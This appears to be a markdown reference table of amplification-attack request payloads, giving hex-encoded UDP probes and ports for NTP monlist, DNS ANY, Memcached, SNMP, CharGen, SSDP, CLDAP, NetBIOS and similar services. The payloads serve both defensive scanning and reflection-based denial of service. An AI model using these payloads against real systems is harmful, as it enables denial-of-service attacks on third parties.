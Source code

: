 # Amplification Attacks


|Protocol| Description |UDP Port | Request Payload HEX| 
|---| --- | ---| --- | 
|**NTP**| monlist command | 123 |`1700032a0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000` | 
|**DNS**|  ANY google.com query| 53 |`17ea0100000100000000000106676f6f676c6503636f6d0000ff00010000290200000000000000` | 
|**Memcached**|  stat items |11211 | `5a4d0000000100007374617473206974656d730d0a` | 
|**SNMP**|  system description field using community string public | 161 |`302902010004067075626c6963a01c0204565adc5d020100020100300e300c06082b060102010101000500` |
|**SNMP**| getbulkrequest target snmpv2 | `302202010104067075626c6963a515020469a8755102010002010a300730050601010500` |
|**CharGen**| trigger response containing random ASCII chars| 19 |`0a` |
|**RIPv1** | malformed request | 520 |`010100000000000000000000000000000000000000001000`|
|**QOTD**| trigger a quote | 17 | `0a`|
|**SSDP**| trigger ssdp:all responses from UPnP SSDP service | 1900 |`4d2d534541524348202a20485454502f312e310d0a486f73743a3233392e3235352e3235352e3235303a313930300d0a53543a737364703a616c6c0d0a4d616e3a22737364703a646973636f766572220d0a4d583a310d0a`|
|**CLDAP**| searchrequest CLDAP | 389 | `30840000002d02010163840000002404000a01000a0100020100020100010100870b6f626a656374636c617373308400000000000a`|
|**NETBIOS**| NBSTAT query to get status | 137 | `e5d80000000100000000000020434b4141414141414141414141414141414141414141414141414141414141410000210001`|
